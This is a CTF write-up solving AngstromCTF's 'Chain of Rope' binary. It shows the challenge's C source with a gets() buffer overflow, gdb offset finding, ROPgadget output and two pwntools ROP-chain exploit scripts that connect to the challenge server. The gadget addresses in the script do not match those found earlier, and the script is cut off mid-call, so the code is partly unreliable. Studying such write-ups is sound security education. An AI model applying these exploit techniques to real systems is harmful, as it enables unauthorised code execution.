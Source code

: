 ## AngstromCTF: Chain of Rope
> defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?


##### *tl;dr: chaining rop gadgets*
#### Guessing from the challenge title itself, this challenge will be solved by chaining together rop gadgets found inside the binary to get the flag. For the exploit, it can be done the hard way or the much easier way. I'll discuss the hard way first to have an understading on how to perform a simple rop chain on a 64-bit binary. 
#### Since we have the source code, first thing to do is to examine it:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	char name [32];
	printf("--== ROPE CHAIN BLACK MARKET ==--\n");
	printf("LIMITED TIME OFFER: Sending free flag along with any purchase.\n");
	printf("What would you like to do?\n");
	printf("1 - Set name\n");
	printf("2 - Get user info\n");
	printf("3 - Grant access\n");
	int choice;
	scanf("%d\n", &choice);
	if (choice == 1) {
		gets(name);
	} else if (choice == 2) {
		getInfo();
	} else if (choice == 3) {
		printf("lmao no\n");
	} else {
		printf("I don't know what you're saying so get out of my black market\n");
	}
	return 0;
}
```
#### From what we can analyze from the code, the entry point for our exploit will be the vulnerable gets call for the name variable when selecting the first user choice then we can proceed to jump to any function we want. But we can't do that, since the function we really need to call, `flag`, has arguments that need to be checked first before it is executed. To do that, we need to jump to the necessary functions, in a particular order, to set the needed variables. So our chain will go something like: `buffer overflow - call authorize to set userToken - call addBalance and provide the pin argument - finally call flag with the needed arguments`
#### It won't be that easy tho, since unlike 32-bit binaries which place the arguments on the stack, 64-bit binaries place arguments on registers - here is where the need for rop gadgets pop in. 
```
$ ROPgadget --binary chain_of_rope
  [...]
  0x00000000004008f3 : pop rdi ; ret
  0x00000000004008f1 : pop rsi ; pop r15 ; ret
```
#### These are the rop gadgets that we need since the functions require two arguments at most and these arguments must be placed into the rdi and rsi registers. Before we proceed to make our exploit, we need to find which offset to control rip. 
```
$ gdb ./chain_of_rope
  gdb-peda$ pattern create 100
  [...]
  
  gdb-peda$ r
  --== ROPE CHAIN BLACK MARKET ==--
  LIMITED TIME OFFER: Sending free flag along with any purchase.
  What would you like to do?
  1 - Set name
  2 - Get user info
  3 - Grant access
  1
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

  Program received signal SIGSEGV, Segmentation fault.
  [...]
  
  gdb-peda$ x/wx $rsp
  0x7fffffffddd8:	0x41416341
  
  gdb-peda$ pattern offset 0x41416341
  1094804289 found at offset: 56
```
#### And now that we have what we need, we'll now make the exploit. So what we'll need to do is to overflow the buffer and jump to the authorize function to set the userToken variable, next we use the pop rdi gadget for us to place the pin argument for addBalance into the rdi register, then we use the `pop rdi` and `pop rsi; pop r15` gadgets to place the pin and secret arguments for the flag function, then provide a dummy address for the program to return to (r15) and finally get the flag. Now to craft our exploit:
```python
from pwn import *

#: Connect to chall server
HOST = 'shell.actf.co'
PORT = 19400
binary = ELF('./chain_of_rope')
rop = ROP(binary)
# p = binary.process()
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 56
authorize = binary.symbols['authorize']
addBalance = binary.symbols['addBalance']
flag = binary.symbols['flag']

#: Gadgets
pop_rdi = p64(0x401403)
pop_rsi = p64(0x401401)

#: Rop exploit v1
context.clear(arch='amd64')
rop.raw(offset)
rop.raw(p64(authorize))
rop.raw(pop_rdi)
rop.raw(p64(0xdeadbeef))
rop.raw(p64(addBalance))
rop.raw(pop_rdi)
rop.raw(p64(0xba5eba11))
rop.raw(pop_rsi)
rop.raw(p64(0xbedabb1e))
rop.raw(p64(0x0))
rop.raw(p64(flag))
exploit = rop.chain()

#: Send payload
p.sendline('1')
p.sendline(exploit)
p.interactive(
```
#### And there we have it. But we could also do this through a much simpler approach using rop.calls from pwntools. We only need to call the functions and provide their arguments, pwntools chains it for us. 
```python
#: ROP exploit v2
context.clear(arch='amd64')
rop.call(authorize)
rop.call(addBalance, [0xdeadbeef])
rop.call(flag, [0xba5eba11, 0xbedabb1e])
print(rop.dump())
exploit = offset + rop.chain()
```
#### Running our exploit script, we now get our flag! 
```actf{dark_web_bargains}```
